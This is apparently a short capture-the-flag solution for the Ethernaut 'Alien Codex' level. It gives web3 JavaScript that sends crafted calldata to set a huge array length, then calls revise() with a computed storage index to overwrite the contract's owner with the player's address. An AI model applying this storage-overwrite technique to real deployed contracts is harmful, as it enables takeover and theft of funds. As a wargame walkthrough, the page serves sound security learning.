 # [Alien Codex](https://ethernaut.zeppelin.solutions/level/0x73048cec9010e92c298b016966bde1cc47299df5)

[This solution article](http://bug-db.com/snapshot?type=news&uid=2dc486aad1b711e8b094aea8108a386b) explains how to come up with the data

```JavaScript
sig=web3.sha3('make_contact(bytes32[])').slice(0,10);
// '0x1d3d4c0b'
data1="0000000000000000000000000000000000000000000000000000000000000020";//动态数组的偏移，即数组长度存储的部分，起始于32字节
data2="1000000000000000000000000000000000000000000000000000000000000001";//数组的长度
data=sig+data1+data2;
web3.eth.sendTransaction({ from:"0x8d012fa42370add6268b547d955eef603c89821a",to:"0x5d9146c540b529c693afdc0a04f4652eee9688c3", data:data }, (err,res) => {if (err) { console.log(err); } else {console.log(res);} });
```
Once the above is done. await contract.contact() will return true.

Now call revise(uint i, bytes32 _content) to pass the level. use 35707666377435648211887908874984608119992236509074197713628505308453184860938 for i and "0x0000000000000000000000008d012fa42370add6268b547d955eef603c89821a" for _content. I had to pad my address 8d012fa42370add6268b547d955eef603c89821a with these 0's to get await contract.owner() to return the correct address.
